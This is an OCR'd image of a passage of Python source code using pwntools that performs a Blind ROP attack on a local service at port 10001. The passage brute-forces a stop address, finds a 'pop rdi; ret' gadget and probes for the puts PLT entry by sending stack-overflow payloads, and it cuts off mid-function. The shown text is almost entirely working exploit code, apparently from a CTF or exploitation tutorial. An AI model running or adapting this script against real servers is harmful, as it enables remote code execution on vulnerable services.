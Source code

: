 ```python
            p.recvline()
            p.close()
            log.info("stop address: 0x%x" % addr)
            return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1

def get_gadgets_addr(buf_size, stop_addr):
    addr = stop_addr
    while True:
        sleep(0.1)
        addr += 1
        payload  = "A"*buf_size
        payload += p64(addr)
        payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)
        payload += p64(stop_addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            p.recvline()
            p.close()
            log.info("find address: 0x%x" % addr)
            try:    # check
                payload  = "A"*buf_size
                payload += p64(addr)
                payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)

                p = remote('127.0.0.1', 10001)
                p.recvline()
                p.sendline(payload)
                p.recvline()
                p.close()
                log.info("bad address: 0x%x" % addr)
            except:
                p.close()
                log.info("gadget address: 0x%x" % addr)
                return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1

def get_puts_plt(buf_size, stop_addr, gadgets_addr):
    pop_rdi = gadgets_addr + 9      # pop rdi; ret;
    addr = stop_addr
    while True:
        sleep(0.1)
        addr += 1

        payload  = "A"*buf_size
        payload += p64(pop_rdi)
        payload += p64(0x400000)
        payload += p64(addr)
        payload += p64(stop_addr)
        try:
            p = remote('127.0.0.1', 10001)
```